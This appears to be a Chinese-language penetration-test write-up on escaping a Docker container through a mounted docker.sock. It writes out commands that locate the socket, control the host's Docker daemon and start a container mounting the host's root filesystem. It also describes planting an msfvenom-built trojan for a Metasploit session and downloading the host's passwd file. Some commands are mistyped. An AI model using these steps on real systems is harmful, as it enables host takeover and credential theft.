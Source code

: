 
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202403.png)

  

经过测试发现，目标docker容器将docker.sock挂载到了容器内部，这样可以在docker容器中调用和执行宿主机的docker。

  

在容器中找到docker.sock路径：find / -name docker.sock

  

在容器查看宿主机docker信息：docker-H unix:///run/docker.sock info

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202404.png)

  

查看宿主机容器：docker -H unix:///run/docker.sock images

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202405.png)

  

运行一个新容器并挂载宿主机根路径：docker -Hunix:///run/docker.sock run -d -I –name aaa -v
/:/test ubuntu /bin/bash



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202406.png)

  

使用msfvenom生成linux的木马1.elf，然后用python创建简易的http服务

  

![]()

  

下载生成的木马1.elf，然后将木马复制到我们自己创建的容器内并执行。  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202407.png)

  

Msf成功上线。  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202408.png)

  

下载宿主机的passwd文件  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814202409.png)

  